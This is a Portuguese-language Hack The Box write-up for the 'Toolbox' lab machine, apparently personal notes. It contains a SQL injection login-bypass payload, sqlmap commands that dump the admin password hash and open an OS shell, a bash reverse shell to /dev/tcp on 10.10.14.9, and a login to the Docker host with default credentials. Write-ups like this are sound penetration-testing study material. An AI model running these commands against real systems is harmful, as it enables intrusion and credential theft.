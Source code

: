Enumeração de serviços:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304215048.png]]
Identificação do executavel docker-toolbox.exe no FTP, indicando que temos uma aplicação rodando em container:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304215222.png]]
Durante enumeração com nmap, identificamos o subdomínio admin.megalogistic.com, adicionamos em `/etc/hosts` e acessamos para verificar o conteúdo:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304221211.png]]
Ao tentara um payload de SQLi, recebemos um erro:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304221257.png]]
E ao utlizar o payload `admin' OR '1'='1` no nome do usuário, conseguimos dar um bypass na tela de login:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304222026.png]]
Utilizando o utilitário `sqlmap` vamos enumerar o alvo com o comando:
``` bash
# Enumeração do tipo de banco
sudo sqlmap -u https://admin.megalogistic.com/index.php --data "username=admin&password=123" -p username --dbs
```
Após algumas enumerações, extraimos o hash do admin com o comando:
```bash
sudo sqlmap -u https://admin.megalogistic.com/index.php --data "username=admin&password=123" -p username -D public -T users -C password,username --dump
```
Conseguimos uma shell com o comando:
```bash
sudo sqlmap -u https://admin.megalogistic.com/index.php --data "username=1&password=admin" -p username --flush-session --time-sec=20 --os-shell
```
E enviamos uma shell reversa com o comando:
```bash
/bin/bash -c 'bash -i > /dev/tcp/10.10.14.9/1234 0>&1'
```
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304230749.png]]
Ao verificar a versão do Linux, descobrimos que se trata de uma imagem específica para utilização em container:
![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304233304.png]]
E ao pesquisar um pouco na internet, descobrimos algumas falhas de configuração, como a conexão com a máquina host através do ssh com o seguinte login:
```bash
# Login no host
ssh docker@172.17.0.1
# Password: tcuser
```

![[Write-up/Hack The Box/Toolbox/img/Pasted image 20240304233447.png]]
A flag pode ser encontrada na pasta `/c` na raiz do host.